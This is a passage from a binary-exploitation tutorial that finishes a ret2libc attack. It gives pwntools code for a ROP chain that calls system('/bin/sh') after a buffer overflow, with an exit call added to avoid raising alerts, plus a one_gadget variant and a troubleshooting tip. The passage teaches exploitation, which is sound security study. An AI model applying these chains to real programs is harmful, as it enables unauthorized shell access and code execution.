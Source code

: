 Finally, the /bin/sh execution exploit is going to be prepared sent:

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

##### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.  
The last ROP \(`rop1`\) ended calling again the main function, then we can **exploit again** the **overflow** \(that's why the `OFFSET` is here again\). Then, we want to call `POP_RDI` pointing to the **addres** of _"/bin/sh"_ \(`BINSH`\) and call **system** function \(`SYSTEM`\) because the address of _"/bin/sh"_ will be passed as a parameter.  
Finally, the **address of exit function** is **called** so the process **exists nicely** and any alert is generated.

**This way the exploit will execute a** _**/bin/sh**_ **shell.**

![](../../.gitbook/assets/image%20%28255%29.png)

## 4\(2\)- Using ONE\_GADGET

You could also use [ONE\_GADGET ](https://github.com/david942j/one_gadget)to obtain a shell instead of using **system** and **"/bin/sh". ONE\_GADGET** will find inside the libc library some way to obtain a shell using just one **ROP**.   
However, normally there are some constrains, the most common ones and easy to avoid are like `[rsp+0x30] == NULL` As you control the values inside the **RSP** you just have to send some more NULL values so the constrain is avoided.

```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```

## EXPLOIT FILE

Here you have the final exploit after having performed all the necessary changes to the original [**template.py**](../../misc/basic-python/rop-pwn-template.md) **file**.

{% file src="../../.gitbook/assets/template.py" caption="template.py" %}

## Common problems

### MAIN\_PLT = elf.symbols\['main'\] not found

If the "main" symbol does not exist. Then you can just where is the main code:

```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
